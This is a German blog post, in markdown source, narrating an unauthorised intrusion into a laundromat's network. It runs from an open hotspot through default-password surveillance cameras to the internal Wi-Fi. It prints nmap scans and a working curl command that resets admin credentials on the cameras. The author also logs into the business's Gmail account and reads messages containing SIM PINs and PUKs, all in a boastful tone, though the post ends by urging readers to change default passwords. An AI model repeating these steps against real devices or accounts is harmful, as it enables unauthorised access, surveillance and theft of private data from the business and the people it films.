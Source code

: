```yaml
---
title: Waschsalon - Wenn man sich waschen sieht.
layout: post
permalink: waschsalon-wenn-man-sich-waschen-sieht
published: true
---
```

Waschsalon mit Freundin. Offener Hotspot. Much Profit. Wow.

# Wir scannen den offenen Hotspot
Sobald ich in einen Hotspot komme scanne ich das Netzwerk, weil mich interessiert welche Geraete noch so herumschwirren. In diesem Fall waren auch wieder nur ein paar Handys und der Router verbunden. Nichts ungewoehnliches also.

Doch der Router stach irgendwie raus.
```
# nmap -A -T4 -sV -oN gast.network.nmap 192.168.3.192/24
Nmap scan report for 192.168.3.1
Host is up (0.0011s latency).
Not shown: 988 closed ports
PORT      STATE    SERVICE      VERSION
53/tcp    open     domain       dnsmasq 2.57
| dns-nsid: 
|_  bind.version: dnsmasq-2.57
80/tcp    filtered http
139/tcp   filtered netbios-ssn
445/tcp   filtered microsoft-ds
515/tcp   filtered printer
631/tcp   filtered ipp
2869/tcp  filtered icslap
5102/tcp  open     http         Boa 0.94.13
|_http-server-header: Boa/0.94.13
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel:2.6.32.32
```
Warum ist Port 5102 offen und dahinter laeuft ein Boa HTTP Server?
Wenn man die Seite in einem Browser oeffnet, kommt ein einfacher Login ohne jegliche Bezeichnung des Geraetes, was an sich schonmal positiv ist. Graebt man ein wenig im Source Code ist diese Stelle recht auffaellig:
![Default Login](/content/images/2016/01/2016-01-23-192614_1169x323_scrot.png)
Damit hatte ich wohl den Standard Benutzerlogin fuer den Admin. Nachdem man aber bei einem Login die Daten aendern MUSS(!) machte ich mir keine grossen Hoffnungen. Doch siehe da:
![Camera](/content/images/2016/01/2016-01-23-192418_1364x647_scrot.png)
Bei herumstoebern auf der Kamera findet man schnell den Bereich zur Konfiguration des WLANS.
![internes WLAN](/content/images/2016/01/2016-01-23-193017_518x160_scrot.png)
Doch nicht nur das. Bei einer Bewegung zwischen den Zeiten 1 und 5 Uhr sendet die Kamera ueber SMTP ueber einen Googlemail Account Bilder an den Betreiber des Waschsalons.
![googlemail](/content/images/2016/01/2016-01-23-194321_614x468_scrot.png)
Nunja...betrachten wir den Googlemail Account spaeter. Schauen wir uns doch erstmal weiter im internen Netz um. 

# Das interne Netzwerk
Nach Authentifizierung im internen WLAN und Scan ueber alles sind ein paar Geraete zu finden die online sind.
```
# nmap -sV -p- -oN full.scan.nmap 192.168.2.1/24
Nmap scan report for easy.box (192.168.2.1)
Host is up (0.0054s latency).
Not shown: 65475 closed ports, 52 filtered ports
PORT      STATE SERVICE    VERSION
53/tcp    open  domain     dnsmasq 2.57
80/tcp    open  http       Apache httpd
515/tcp   open  printer    BusyBox lpd
[...]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel:2.6.32.32

Nmap scan report for 192.168.2.102
Host is up (0.0041s latency).
Not shown: 65516 closed ports
PORT      STATE    SERVICE VERSION
1424/tcp  filtered hybrid
5102/tcp  open     http    Boa 0.94.13
[...]

Nmap scan report for android-ef9cbe831bca3663 (192.168.2.117)
Host is up (0.054s latency).
Not shown: 65531 closed ports
PORT      STATE SERVICE VERSION
8008/tcp  open  http    Amazon Whisperplay DIAL REST service
[...]
Service Info: Device: media device

Nmap scan report for 192.168.2.129
Host is up (0.0050s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5129/tcp open  http    Boa 0.94.13

Nmap scan report for 192.168.2.161
Host is up (0.040s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5161/tcp open  http    Boa 0.94.13

Nmap scan report for 192.168.2.188
Host is up (0.0036s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5188/tcp open  http    Boa 0.94.13

Nmap scan report for 192.168.2.199
Host is up (0.0045s latency).
Not shown: 65534 closed ports
PORT     STATE SERVICE VERSION
5199/tcp open  http    Boa 0.94.13
```
Um den Scan mal zusammenzufassen haben wir 7 Geraete im Netz (ohne meinen Laptop). Auf den meisten laeuft ein Boa HTTP Server, wobei hier davon auszugehen ist, dass es sich um Ueberwachungskameras handelt. Interessant ist die Portvergabe, doch dazu spaeter ein wenig mehr.
Dazu kommt eine Geraet, was sich als Android ausgibt und einen Port 8008 offen hat.
Als ich ein paar Tage spaeter nochmal vorbeiging um eine Vermutung fuer das Android Geraet zu bestaetigen tauchten 2 weitere Geraete im Netzwerk auf. Das eine war von Advantech (die stellen interne Boards fuer IoT Geraete her) und eine IP Adresse, die ich bereits in den FTP Konfiguration der Kamera gesehen hatte.

# Weitere Kameras
Die These der Kameras lies sich relativ schnell bestaetigen. Alle Ueberwachungskameras hatten standard Benutzereinstellungen und ich konnte ein Passwort relativ schnell setzen mit:
```language-bash
curl "http://${1}/set_users.cgi?user=admin&pwd=&user1=admin&pwd1=admin&pri1=2&user2=&pwd2=&pri2=&user3=&pwd3=&pri3=&user4=&pwd4=&pri4=&user5=&pwd5=&pri5=&user6=&pwd6=&pri6=&user7=&pwd7=&pri7=&user8=&pwd8=&pri8="
```
Damit fielen alle Ueberwachungskameras.
![129](/content/images/2016/01/2016-01-23-201036_1363x700_scrot.png)
![161](/content/images/2016/01/2016-01-23-201220_1363x703_scrot.png)
![188](/content/images/2016/01/2016-01-23-200838_1364x701_scrot-1.png)
![199](/content/images/2016/01/2016-01-23-200631_1362x703_scrot.png)

Stellte sich nach wie vor die Frage nach dem Android Geraet.

# Das mysterioese Android Geraet
Ich konnte mir daraus keinen Reim machen, vermutete aber einen FireTV. Leider hatte ich an dem Tag nichtmehr die Zeit und Muse das zu verifizieren. Damit ich nicht umsonst nochmal hinfahren musste, fragte ich auf Twitter nach, ob jemand das Verhalten eines FireTV bekannt war. Netterweise hat [@schniggie](https://twitter.com/schniggie) da mal fuer mich an seinem nachgeschaut (Danke dafuer).
![firetv](/content/images/2016/01/2016-01-29-165646_493x333_scrot.png)
Ich bin also noch einmal hingefahren um zu testen ob es sich wirklich um einen FireTV handelt. Eigentlich wollte ich ja [Rick Astley](https://www.youtube.com/watch?v=DLzxrzFCyOs) drauf laufen lassen, aber nachdem Leute im Laden waren, habe ich doch davon abgesehen. Dennoch konnte ich ueber einen Login mit der FireTV Remote App den FireTV verifizieren.
![FireTV2](/content/images/2016/01/FullSizeRender.jpg)

# Googlemail Account
Glaubt bloss nicht, dass ich den Googlemail Account vergessen haette. *(Dieser Account ist klar mit dem Unternehmen verknuepft und weisst in der Namensgebung keinen privaten Kontext auf)*
Bei Login in diesen Account kommt eine Seite mit Recovery Options auf der auch eine Handy Nummer angegeben ist. 
![Recovery Options](/content/images/2016/01/2016-01-23-194348_462x654_scrot.png)
Keine Ahnung wozu die gehoert. Hab sie auch nicht angerufen.
Im Posteingang lagen insgesamt 5 Mails mit Pins und Puks von "Notfallhandys" eines anderen Unternehmens. Versendet waren Protokolle vom Cashpoint und Kameras.
Mit dem Account ist noch ein Handy verknuepft, was aber leider keine Standortfreigabe aktiviert hat.
Man koennte hier noch weiterstoebern um weitere Informationen zu finden, aber meeeh.

# Die Sache mit den Ports
Stellt sich noch die letzte Frage: Warum sind alle Kameras auf unterschiedlichen Ports?
Ich bin nur ins interne Netzwerk gekommen weil ein Port Forwarding auf dem Router nicht korrekt konfiguriert war. Es liegt also nahe, dass alle Ports durchgereicht werden. Aber wohin?
In's Internet natuerlich. Wohin auch sonst!?
Alle Kameras sind von aussen mit Standard Benutzernamen und leerem Passwort zugaenglich.

![von aussen zugaenglich](/content/images/2016/01/2016-01-24-165034_1168x570_scrot.png)

# Fazit
Normalerweise sollten Standardpasswoerter in internen Netzen nicht so das Problem sein. Doch sobald eine Fehlkonfiguration vorliegt (wie hier die Portweiterleitung) faellt das gesamte Netzwerk. Deswegen, auch wenn es noch so unwichtig erscheint, aendert Standardpasswoerter!
Der ganze "Angriff" hat sich innerhalb von 1.5-2h abgespielt. Mit mehr Zeit und waermerer Umgebung[^n] (da drinnen wird nicht geheizt), haette man sicher noch weiter eindringen koennen.

So Long

[^n]: "...oder einfach mal mit ein bisschen Bewegung. Er hat mich alles alleine machen lassen und saß zwei Stunden nur auf dem Sofa!" - Anm. der Freundin.